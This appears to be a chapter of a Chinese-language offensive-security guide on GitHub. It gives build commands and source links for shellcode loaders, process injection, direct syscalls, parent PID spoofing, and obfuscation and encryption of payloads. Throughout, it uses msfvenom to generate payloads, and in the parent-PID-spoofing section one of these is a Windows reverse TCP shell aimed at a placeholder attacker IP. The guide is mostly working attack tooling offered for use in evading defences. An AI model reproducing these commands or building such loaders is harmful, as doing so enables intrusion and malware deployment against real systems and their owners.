 ## 加载器

### 下载远程恶意文件

[wolf.cpp](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/blob/main/Zh/%E7%AC%AC%E5%85%AD%E7%AB%A0/%E5%8A%A0%E8%BD%BD%E5%99%A8/wolf.cpp)

```bash
x86_64-w64-mingw32-g++ -shared -o wolf.dll wolf.cpp -fpermissive
```

[download.cpp](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/blob/main/Zh/%E7%AC%AC%E5%85%AD%E7%AB%A0/%E5%8A%A0%E8%BD%BD%E5%99%A8/download.cpp)

```bash
x86_64-w64-mingw32-g++ -O2 download.cpp -o download.exe -mconsole -lwininet -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

```bash
.\download.exe 进程PID
```

### Shellcode加载

1. EnumDesktopsA函数

```bash
msfvenom -p windows/x64/messagebox TEXT="Hello, World" -f c
```

[enumdesktopa.cpp](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/blob/main/Zh/%E7%AC%AC%E5%85%AD%E7%AB%A0/%E5%8A%A0%E8%BD%BD%E5%99%A8/enumdesktopa.cpp)

```bash
x86_64-w64-mingw32-g++ -O2 enumdesktopa.cpp -o enumdesktopa.exe -I /usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
````

2. EnumChildWindows函数

[ecw.cpp](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/blob/main/Zh/%E7%AC%AC%E5%85%AD%E7%AB%A0/%E5%8A%A0%E8%BD%BD%E5%99%A8/ecw.cpp)

```bash
x86_64-w64-mingw32-g++ -O2 ecw.cpp -o ecw.exe -I /usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

3. Listplanting函数

[llcalc.cpp](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/blob/main/Zh/%E7%AC%AC%E5%85%AD%E7%AB%A0/%E5%8A%A0%E8%BD%BD%E5%99%A8/llcalc.cpp)

```bash
x86_64-w64-mingw32-g++ -O2 llcalc.cpp -o llcalc.exe -I /usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

4. EnumerateLoadedModules函数

[elm.cpp](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/blob/main/Zh/%E7%AC%AC%E5%85%AD%E7%AB%A0/%E5%8A%A0%E8%BD%BD%E5%99%A8/elm.cpp)

```bash
x86_64-w64-mingw32-g++ -O2 elm.cpp -o elm.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive -ldbghelp
```

## 系统调用

[sycall.cpp](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/blob/main/Zh/%E7%AC%AC%E5%85%AD%E7%AB%A0/%E7%B3%BB%E7%BB%9F%E8%B0%83%E7%94%A8/sycall.cpp)

```bash
x86_64-w64-mingw32-g++ -O2 sycall.cpp -o sycall.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

## 枚举进程并注入

### 单独枚举进程

[枚举进程.cpp](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/blob/main/Zh/%E7%AC%AC%E5%85%AD%E7%AB%A0/%E6%9E%9A%E4%B8%BE%E8%BF%9B%E7%A8%8B%E5%B9%B6%E6%B3%A8%E5%85%A5/枚举进程.cpp)


### NtGetNextProcess函数

[ngnp.cpp](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/blob/main/Zh/%E7%AC%AC%E5%85%AD%E7%AB%A0/%E6%9E%9A%E4%B8%BE%E8%BF%9B%E7%A8%8B%E5%B9%B6%E6%B3%A8%E5%85%A5/ngnp.cpp)

```bash
x86_64-w64-mingw32-g++ -O2 ngnp.cpp -o ngnp.exe -I /usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive -lpsapi -lshlwap
```

### WTSEnumerateProcesses函数

[wtsep.cpp](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/blob/main/Zh/%E7%AC%AC%E5%85%AD%E7%AB%A0/%E6%9E%9A%E4%B8%BE%E8%BF%9B%E7%A8%8B%E5%B9%B6%E6%B3%A8%E5%85%A5/wtsep.cpp)

```bash
x86_64-w64-mingw32-g++ -O2 wtsep.cpp -o wtsep.exe -I /usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive -lpsapi -lshlwap
```

## 父进程PID欺骗

### explorer进程

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=攻击者IP地址 LPORT=4444 -f c
```

[exp.cpp](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/blob/main/Zh/%E7%AC%AC%E5%85%AD%E7%AB%A0/%E7%88%B6%E8%BF%9B%E7%A8%8BPID%E6%AC%BA%E9%AA%97/exp.cpp)

### 自定义父进程

[custom.cpp](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/blob/main/Zh/%E7%AC%AC%E5%85%AD%E7%AB%A0/%E7%88%B6%E8%BF%9B%E7%A8%8BPID%E6%AC%BA%E9%AA%97/custom.cpp)

```bash
x86_64-w64-mingw32-g++ -O2 custom.cpp -o custom.exe -mwindows -I /usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

## 互斥锁

[mutex.cpp](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/blob/main/Zh/%E7%AC%AC%E5%85%AD%E7%AB%A0/%E4%BA%92%E6%96%A5%E9%94%81/mutex.cpp)

```bash
x86_64-w64-mingw32-g++ -O2 mutex.cpp -o mutex.exe -I /usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

## 代码混淆和加密

### 混淆技术

1. 重命名

[script.py](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/blob/main/Zh/%E7%AC%AC%E5%85%AD%E7%AB%A0/%E4%BB%A3%E7%A0%81%E6%B7%B7%E6%B7%86%E5%92%8C%E5%8A%A0%E5%AF%86/script.py)

```bash
python script.py example.txt old new
```

2. 控制流混淆

(1)条件控制流混淆

[number.py](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/blob/main/Zh/%E7%AC%AC%E5%85%AD%E7%AB%A0/%E4%BB%A3%E7%A0%81%E6%B7%B7%E6%B7%86%E5%92%8C%E5%8A%A0%E5%AF%86/number.py)

[tj.py](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/blob/main/Zh/%E7%AC%AC%E5%85%AD%E7%AB%A0/%E4%BB%A3%E7%A0%81%E6%B7%B7%E6%B7%86%E5%92%8C%E5%8A%A0%E5%AF%86/tj.py)

(2)控制流平坦化

[cff.py](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/blob/main/Zh/%E7%AC%AC%E5%85%AD%E7%AB%A0/%E4%BB%A3%E7%A0%81%E6%B7%B7%E6%B7%86%E5%92%8C%E5%8A%A0%E5%AF%86/cff.py)

```bash
pip install astor
```

[flatten.py](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/blob/main/Zh/%E7%AC%AC%E5%85%AD%E7%AB%A0/%E4%BB%A3%E7%A0%81%E6%B7%B7%E6%B7%86%E5%92%8C%E5%8A%A0%E5%AF%86/flatten.py)

```bash
python flatten.py cff.py
```

(3)不透明谓词

[example.py](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/blob/main/Zh/%E7%AC%AC%E5%85%AD%E7%AB%A0/%E4%BB%A3%E7%A0%81%E6%B7%B7%E6%B7%86%E5%92%8C%E5%8A%A0%E5%AF%86/example.py)

[op.py](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/blob/main/Zh/%E7%AC%AC%E5%85%AD%E7%AB%A0/%E4%BB%A3%E7%A0%81%E6%B7%B7%E6%B7%86%E5%92%8C%E5%8A%A0%E5%AF%86/op.py)

### 加密技术

1. XOR加密

```bash
msfvenom -p windows/x64/messagebox TEXT='Hi,I am Snowwolf' TITLE='Ghost Wolf Lab' -f raw -o evil.bin
```

[xor_encode.py](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/blob/main/Zh/%E7%AC%AC%E5%85%AD%E7%AB%A0/%E4%BB%A3%E7%A0%81%E6%B7%B7%E6%B7%86%E5%92%8C%E5%8A%A0%E5%AF%86/xor_encode.py)

[xor.cpp](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/blob/main/Zh/%E7%AC%AC%E5%85%AD%E7%AB%A0/%E4%BB%A3%E7%A0%81%E6%B7%B7%E6%B7%86%E5%92%8C%E5%8A%A0%E5%AF%86/xor.cpp)

```bash
x86_64-w64-mingw32-gcc xor.cpp -o xor.exe -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc >/dev/null 2>&1
```

2. Z85加密

```bash
msfvenom -p windows/x64/messagebox TEXT='Hi,I am Snowwolf' TITLE='Ghost Wolf Lab' -f c
```

[z85_encode.cpp](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/blob/main/Zh/%E7%AC%AC%E5%85%AD%E7%AB%A0/%E4%BB%A3%E7%A0%81%E6%B7%B7%E6%B7%86%E5%92%8C%E5%8A%A0%E5%AF%86/z85_encode.cpp)

```bash
x86_64-w64-mingw32-g++ -O2 z85_encode.cpp -o z85_encode.exe -I/usr/share/mingw-w64/include/ -I/usr/include/z85/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

[z85.cpp](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/blob/main/Zh/%E7%AC%AC%E5%85%AD%E7%AB%A0/%E4%BB%A3%E7%A0%81%E6%B7%B7%E6%B7%86%E5%92%8C%E5%8A%A0%E5%AF%86/z85.cpp)

```bash
x86_64-w64-mingw32-g++ -O2 z85.cpp -o z85.exe -I/usr/share/mingw-w64/include/ -I/usr/include/z85/ -L/usr/x86_64-w64-mingw32/lib/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

3. RC5加密

[rc5.cpp](https://github.com/GhostWolfLab/APT-Individual-Combat-Guide/blob/main/Zh/%E7%AC%AC%E5%85%AD%E7%AB%A0/%E4%BB%A3%E7%A0%81%E6%B7%B7%E6%B7%86%E5%92%8C%E5%8A%A0%E5%AF%86/rc5.cpp)

```bash
x86_64-w64-mingw32-gcc -O2 rc5.cpp -o rc5.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc
```
